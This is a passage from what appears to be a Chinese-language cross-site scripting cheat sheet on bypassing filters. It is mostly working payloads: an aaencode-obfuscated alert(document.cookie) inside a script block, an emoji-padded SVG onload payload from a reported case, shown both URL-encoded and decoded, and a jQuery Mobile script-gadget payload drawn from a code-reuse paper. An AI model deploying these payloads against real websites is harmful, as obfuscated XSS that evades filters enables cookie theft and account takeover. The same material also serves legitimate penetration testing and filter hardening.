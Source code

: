 ```
// 语句 alert(document.cookie); 的 aaencode 形式:
ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (c^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ ((o^_^o) +(o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^_^o))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (o^_^o)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+ (o^_^o)+ (ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_');
</script>
```

- 绕过某些黑名单规则 使用emoji字符. 查询各种字符的各种编码 https://graphemica.com/%F0%9F%98%82
```
emoji字符  经过URL编码的值
 😂         %F0%9F%98%82


比如实际案例 #853637

Payload with an emoji :
%F0%9F%98%82<%3CsVg/onload%F0%9F%98%82=/svg/onload%3Dsvg/onmouseOver=confirm`1`><!--%F0%9F%98%82//=

Decoded Payload:
😂<<sVg/onload😂=/svg/onload=svg/onmouseOver=confirm`1`><!--😂//=
```

- 通过"代码重用"(code-reuse) 实现XSS

参考[Code-Reuse Attacks for the Web: Breaking Cross-Site Scripting Mitigations via Script Gadgets](https://acmccs.github.io/papers/p1709-lekiesA.pdf)
```
如果目标站点本来就用到了下面这2个JavaScript库
<script src="https://code.jquery.com/jquery-1.11.3.js"></script>
<script src="https://code.jquery.com/mobile/1.4.2/jquery.mobile-1.4.2.js"></script>

可使用以下payload实现XSS
<div data-role=popup id='--!><script>alert("XSS")</script>'></div>
```

#### Awesome Encoding
